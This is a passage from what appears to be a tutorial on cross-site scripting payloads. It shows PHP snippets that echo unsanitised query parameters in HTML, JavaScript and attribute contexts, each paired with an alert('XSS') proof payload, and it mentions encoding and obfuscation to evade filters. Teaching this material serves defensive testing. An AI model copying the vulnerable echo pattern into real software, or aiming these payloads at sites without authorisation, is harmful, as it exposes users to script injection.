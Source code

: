 If it is, this indicates an XSS vulnerability.

# XSS Payloads

## Crafting XSS Payloads
When crafting XSS payloads, attackers consider several factors:

1. **Context:** The context in which the input is used (HTML, JavaScript, attributes, etc.) affects the payload design.
2. **Encoding:** Different encoding methods (URL encoding, HTML encoding) can be used to bypass filters.
3. **Filter Evasion:** Techniques like obfuscation and encoding are used to evade security filters.

#### Example of Context-Specific Payloads

1. **HTML Context**

```html
<p>Welcome, <b><?php echo $_GET['name']; ?></b></p>
```

Payload:

```html
<script>alert('XSS');</script>
```

2. **JavaScript Context**

```html
<script> var user = "<?php echo $_GET['user']; ?>"; alert(user); </script>
```

Payload:

```html
"; alert('XSS'); //
```

3. **Attribute Context**

```html
<img src="<?php echo $_GET['image']; ?>">
```

Payload:

```html
x" onerror="alert('XSS');
```

## Basic Payloads
These payloads are simple and often used for testing the presence of an XSS vulnerability.

- **Alert Box:** This payload triggers a JavaScript alert box displaying the message 'XSS'. It's a basic way to confirm that an XSS vulnerability exists.

```html
<script>alert('XSS');</script>
```

